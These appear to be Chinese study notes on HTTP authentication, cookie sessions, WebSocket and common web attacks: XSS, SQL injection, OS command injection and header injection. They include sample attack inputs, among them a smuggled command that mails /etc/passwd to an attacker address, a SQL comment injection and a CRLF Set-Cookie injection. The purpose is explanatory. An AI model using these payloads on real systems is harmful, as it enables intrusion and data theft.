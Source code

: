 **客户端证书**：对客户端认证。（如网银采用客户端证书，不仅要用户提供账号和密码，还要客户端证书，来确认用户是否从特定的终端访问网银），但，只要获得了证书计算机的使用权限，也就意味着有了客户端证书使用权限。

OpenSSL：自认证证书。

### 认证

HTTP/1.1使用认证方式：

- BASIC认证（基本认证），id密码用Base64编码（未加密），被窃听后失去安全性
- DIGEST认证（摘要认证）：客户端发送认证要求，服务器发送质询码，客户端发送响应码（质询计算相应），防窃听，不防伪装。
- SSL客户端认证：客户端安装证书，客户端请求时会发送证书，服务器验证证书，领取证书内客户端的公钥，开始HTTPS通信（SSL需要费用）
- FormBase认证（基于表单认证）：如注册，登录等，通过web应用程序来认证。
多半都是表单认证。

使用Cookie管理Sesssion，客户端发送ID和密码，服务器发送SessionID的Cookie，客户端再请求时带着有sessionId的cookie，认证成功。sessionId可以被拦截窃听

WebSocket协议特点：

- 推送功能，客户端不用频繁请求更新。
- 减少通信量，由于是长连接只有一次
- 握手请求，需要用到Upgrade首部字段，告知服务器通信协议发生改变

### 网络安全

**主动攻击**：如SQL注入攻击web站点

**被动攻击**：设置陷阱，如跨站脚本攻击（XSS），跨站点请求伪造。

通过被动攻击，攻击者可以访问企业内部网络

**输出值转义不完全引发的安全漏洞**

XSS影响：利用虚假输入表单骗取用户信息；利用脚本窃取用户的Cookie，帮助攻击者发送恶意请求；显示伪造的文章或图片。

**XSS示例**：如一个登录页www.xxx.com/login?id=xxx 攻击者将此URI改为带有script的URI，www.xxx.com/login?id=xxx>var.....并诱导用户请求，之后数据便会流向script中的攻击者设置的uri中

**对用户Cookie窃取攻击**：同样通过script，P217

**SQL注入攻击**：比如uri传参时，传入name=abc'--

sql拼接后就会注释掉后面的判断。所以采用#{方式防止}

**OS命令注入攻击**：通过web应用执行非法的操作系统命令攻击。只要在能调用shell函数的地方就有被攻击风险

如发送邮件，;在OS命令中，会被解析为分割多个执行命令的标记。

```javascript
open(MAIL, "| /usr/sbin/sendmail $adr");
程序中的open函数调用sendmail命令发送邮件，将$adr地址改为如下
; cat /etc/passwd | mail hack@example.jp
程序接受该值，构成一下的命令组合，将passwd发送到hack邮箱了
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp
```

**HTTP首部注入攻击**，通过在相应首部字段内插入换行，添加任意响应首部或主体的攻击，被动攻击

如：在Location后添加%0D%0A（解析为换行符）Set-Cookie：SID=123456，这样就能操作Cookie，或者说插入任意字段。
